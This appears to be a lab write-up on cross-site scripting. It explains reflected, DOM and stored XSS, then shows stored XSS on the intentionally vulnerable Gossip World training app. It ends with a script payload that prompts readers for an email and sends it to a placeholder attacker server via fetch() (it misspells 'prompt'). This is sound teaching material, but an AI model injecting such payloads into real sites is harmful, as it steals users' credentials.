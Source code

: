 - Reflected XSS: This type of XSS takes place when the data provided by the user is reflected in the HTTP response without being validated properly. This allow the attacker to inject malicious code in the response, that later is executed in the user’s browser.
- DOM XSS: This type of XSS takes place when the malicious code is executed in the user’s browser via DOM. This is produced when the JS code in a webpage is changed modifying the DOM in a way that is vulnerable to code injection.
- Stored XSS: This type of XSS takes place when an attacker is capable of storing malicious code in a database or in the server where the webpage is. This code is executed every time the webpage loads.

  

XSS attacks can be very dangerous for the companies and the users. Because of this , it is essential for the DevTeams to implement security measures that prevent XSS vulnerabilities.

This measures includes the data input validation, elimination of dangerous HTML code and the limitation of the JS permissions in the user’s browser.

---

### App PoC - Exploiting a vulnerable webapp with XSS

We will be using a vulnerable app called Gossip World, from the repo [secDevLabs](https://github.com/globocom/secDevLabs) .

  

![[Untitled 52.png]]

In this case there are two users that we created, the user **test** and the user **s4vitar**.

Once we are in, we see a page where we can create new gossips (notes from now), testing we see that the notes are vulnerable to HTML injection.

![[Untitled 53.png]]

![[Untitled 54.png]]

Now this makes me think that we can use **script** tag in HTML to execute JS code.

![[Untitled 55.png]]

When we read the note, we have…

![[Untitled 56.png]]

Success, it is vulnerable to XSS.

  

Now let’s create a prompt so when a user tries to read a post we ask for the credentials, and send this to a remote server that we own.

```JavaScript
<script>
	var email = propmt("Introduce un correo electronico para visualizar este post.");
	
	if (email == null || email == ""){
		alert("Es necesario introducir un correo valido para visualizar este post");
	}else{
		fetch("http://<remote_server_ip>/?email=" + email);
	}
</script>
```
